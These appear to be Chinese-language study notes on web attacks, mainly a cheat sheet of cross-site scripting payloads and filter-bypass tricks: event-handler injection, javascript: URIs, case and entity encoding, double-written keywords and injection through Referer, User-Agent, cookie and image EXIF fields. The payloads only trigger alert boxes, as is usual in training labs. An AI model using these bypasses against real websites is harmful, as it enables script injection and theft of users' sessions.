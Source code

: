 常见攻击方式：

1注入攻击

2上传漏洞攻击

3跨站攻击（https://book.2cto.com/201506/52201.html）
跨站攻击最常见的方式是通过窃取cookie或欺骗打开木马网页等，取得重要的资料

4数据库入侵

 


闭合引号   ```value="">"       value="">onmouseover="alert(1)"```


onmouseover="  //当鼠标进入div元素时触发

onmouseenter=alert() //当鼠标进入div元素时触发,在子元素上也会触发(p 和 span)

onclick=alert() //鼠标点击时就会触发

onchange=alert() //在域的内容改变时发生

oninput=alert() //在用户输入时触发

onmouseover=alert()//鼠标移动到就会触发


```<iframe src=javascript:alert('xss')></iframe>```


```<a href=javascript:alert(1)>test</a>```


大小写转换绕过 ```<a Href="javascript:alert('1')">try</a>```

```<a Href="java&#115;cript:alert('1')">try</a>```


php str_replace()   双写绕过  ```<a hhrefref=javasscriptcript:alert(1)>test</a>```

Unicode编码转换  ```javasc&#114;ipt:alert('1')```  (不可转换标签属性)

```javascript:alert(1)/*http://www*/```     加上注释是为了不影响执行

```javascript:alert(1)//http://www*/```     加上注释是为了不影响执行

```keyword=<script>alert(1)</script>&t_sort="onmouseover="alert(1)"type="txt"```

插入 type="txt" 会忽略后面的type="hidden"


$str11=$_SERVER['HTTP_REFERER']
在php中，可以使用$_SERVER[‘HTTP_REFERER’]来获取HTTP_REFERER信息

引导用户代理到当前页的前一页的地址（如果存在）。由 user agent 设置决定。

并不是所有的用户代理都会设置该项，有的还提供了修改HTTP_REFERER 的功能。

简言之，该值并不可信,可用hackbar修改，如图

![](01.PNG)


$str11=$_SERVER['HTTP_USER_AGENT']
$str11=$_COOKIE["user"]

[图虫EXIF查看器alpha版](https://exif.tuchong.com/)   查看exif信息的网站
修改图片的exif信息，上传到相应网站，然后达到执行XSS的效果

```<img src=x onerror=alert(1)>```

ng-include  在 angular.js 包含外部文件

onerror 事件： 会在文档或图像加载过程中发生错误时被触发。

在装载文档或图像的过程中如果发生了错误，就会调用该事件句柄。

支持该事件的 HTML 标签：```<img>, <object>, <style>```

支持该事件的 JavaScript 对象：window, image

空格绕过 ```<img%0a%0dsrc=x%0a%0donerror=alert(1)>```






